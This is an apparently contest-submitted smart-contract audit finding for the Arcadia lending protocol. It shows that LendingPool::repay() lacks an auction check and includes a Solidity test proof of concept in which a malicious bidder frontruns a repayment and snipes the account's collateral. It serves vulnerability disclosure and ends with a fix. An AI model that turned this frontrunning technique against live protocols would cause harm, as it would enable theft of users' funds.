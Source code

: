 Salty Lead Fox

medium

# `LendingPool::repay()` can be frontran and lead to losses for account owner due to missing auction check

## Summary
It is possible for account owners to call `LendingPool::repay()` while the account's outstanding debt is auctioned. If the account happens to reach the liquidation threshold just before the owner repays their debt, a malicious actor could come in, frontrun the repayment, bid at once and still snipe the account's collateral.

## Vulnerability Detail
When an account reaches the liquidation threshold, anyone can auction it to start covering the losses incurred. `LendingPool::repay()` lacks a check for whether the account is already auctioned, which opens the door for a frontrunning attack. Here is an example scenario:

1. Alice, an account owner, notices that her account has become unhealthy and tries to repay her debt.
2. Just before repaying, the account also passes the liquidation threshold (due to a drop of value of the collateral held).
3. Bob, a malicious actor, sees Alice's transaction in the mempool and the liquidatable account, and frontruns Alice's transaction with `Liquidator::liquidateAccount()`.
4. Alice's transaction goes through and she has successfully brought the account back into a healthy state but it's futile since the account is already auctioned.
5. Alice eventually loses the account's assets as they get distributed among the bidders. Any buffer she used for the repayment will be stuck inside of `LiquidationPool`.

Coded POC (`test/fuzz/Liquidator/Bid.fuzz.t.sol`):

```solidity
function testCanRepayWhileAuctioned() public {
    // Create Bidder
    address maliciousBidder = makeAddr("bidder");

    // Malicious bidder frontruns and initiates liquidation
    vm.startPrank(maliciousBidder);
    uint112 amountLoaned = 100_000;
    initiateLiquidation(amountLoaned);
    vm.stopPrank();

    // Account owner repays their debt but gets frontrun by bidder
    vm.startPrank(users.accountOwner);
    uint256 debtToCover = proxyAccount.getUsedMargin() - proxyAccount.getLiquidationValue();
    // owner decides to add some buffer as well
    debtToCover += 30_000;
    mockERC20.stable1.approve(address(pool), debtToCover);
    pool.repay(debtToCover, address(proxyAccount));
    vm.stopPrank();

    // Account is no longer liquidatable but it's already in auction
    assert(proxyAccount.isAccountLiquidatable() == false);
    // Account is healthy
    assert(proxyAccount.isAccountUnhealthy() == false);

    // Configure bid parameters
    bool endAuction = true;
    uint256[] memory originalAssetAmounts = liquidator.getAuctionAssetAmounts(address(proxyAccount));
    uint256 originalAmount = originalAssetAmounts[0];
    uint256[] memory bidAssetAmounts = new uint256[](1);
    uint256 bidAssetAmount = originalAmount;
    bidAssetAmounts[0] = bidAssetAmount;

    // Let some time pass so value of account depreciates
    vm.warp(block.timestamp + 2 hours);

    // Calculate price asked
    uint256 askedShare = liquidator.calculateTotalShare(address(proxyAccount), bidAssetAmounts);
    uint256 askPrice_ = liquidator.calculateBidPrice(address(proxyAccount), askedShare);
    deal(address(mockERC20.stable1), maliciousBidder, askPrice_);
    assert(amountLoaned > askPrice_);

    // Bidder bids for it
    vm.startPrank(maliciousBidder);
    mockERC20.stable1.approve(address(pool), askPrice_);
    liquidator.bid(address(proxyAccount), bidAssetAmounts, endAuction);
    vm.stopPrank();

    // Bidder has succesfully snipped accounts' assets
    assert(mockERC20.stable1.balanceOf(maliciousBidder) == amountLoaned);
}
```

## Impact
Account Owner burns the debt of the account and brings it back to a healthy state but can easily be frontrun by malicious actors who initiate an auction for it before that. Eventually, the account owner loses the collateral held in the account as well as any buffer amount used during the repayment.

## Code Snippet
https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L464-L475

## Tool used

Manual Review

## Recommendation
An `if` statement should be added at the beginning of `LendingPool::repay()` that checks whether the account has already been auctioned. If so, it should revert.